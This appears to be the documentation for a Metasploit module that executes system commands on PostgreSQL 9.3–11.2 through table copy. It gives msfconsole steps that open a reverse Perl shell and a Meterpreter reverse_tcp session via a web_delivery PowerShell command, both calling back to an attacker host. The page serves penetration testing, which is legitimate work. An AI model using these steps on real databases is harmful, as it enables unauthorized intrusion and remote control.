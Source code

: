 This module attempts to create a new table, then execute system commands in the
context of copying the command output into the table.

This module should work on all Postgres systems running version 9.3 and above.

## Vulnerable Application

  Download any version of PostgreSQL from 9.3 to 11.2 (Latest at time of writing)
  Set up the software and connect as the postgres superuser.
  Use the techniques described in this blogpost to verify command execution:
    https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5

## Verification Steps

  You must be able to connect to the PostgreSQL database, and have a valid set of superuser
  credentials, or a user in the 'pg_read_server_files' group
  
  Exploiting Linux/OSX:

    1. Start msfconsole
    2. use exploit/multi/postgres/postgres_cmd_execution_nine_three
    3. set RHOST target.ip.add.ress
    4. set payload cmd/unix/reverse_perl
    5. set PASSWORD postgres
    6. set USERNAME postgres
    7. set DATABASE postgres
    8. set LHOST my.ip.add.ress
    9. set LHOST myport
    10. exploit
  
  Exploiting Windows:

    1. Start msfconsole
    2. use exploit/multi/script/web_delivery
    3. set target 2
    4. set payload windows/meterpreter/reverse_tcp
    5. set LHOST my.ip.add.ress
    6. exploit -j
    7. Copy powershell command, add \ to escape any single quotes
    8. use exploit/multi/postgres/postgres_cmd_execution_nine_three
    9. set RHOST target.ip.add.ress
    10. set COMMAND powershell... (Output from Step 7)
    11. set PASSWORD postgres
    12. set USERNAME postgres
    13. set DATABASE postgres
    14. exploit


## Options

  **COMMAND**

  Instead of using a cmd stager metasploit payload, for windows you need to execute a command. This is suggested to be 
  a web_delivery powershell command, however other techniques can be used. 
  
  **TABLENAME**
  
  The name of the table to create in the database, default is set to 'msftesttable', this table will be dropped create a new
  one each time the exploit is run.
  
  **DATABASE**
  
  Name of the database to connect to
  
  **USERNAME**
  
  A valid username that allows access to the database
  
  **PASSWORD**
  
  A valid password that allows access to the database
  
## Scenarios

### Exploiting PostgreSQL 10.7 on Linux

   ![Image Not Found](https://cdn-images-1.medium.com/max/1600/1*G0E4YMdLA59lDsDm38Ce-g.png)
   ![Image Not Found](https://cdn-images-1.medium.com/max/1600/1*sJLJlahpTxWrB566k-IHwQ.png)
   
### Exploiting PostgreSQL 10.7 on Windows

   ![Image Not Found](https://cdn-images-1.medium.com/max/1600/1*3Bl2irM5HTo6g9QyrsikrQ.png)
   ![Image Not Found](https://cdn-images-1.medium.com/max/1600/1*fy3LiHGoy18GITlZ0xeRyQ.png)
   ![Image Not Found](https://cdn-images-1.medium.com/max/1600/1*wT2Nys2_jZiwpY6AsjLGpQ.png)
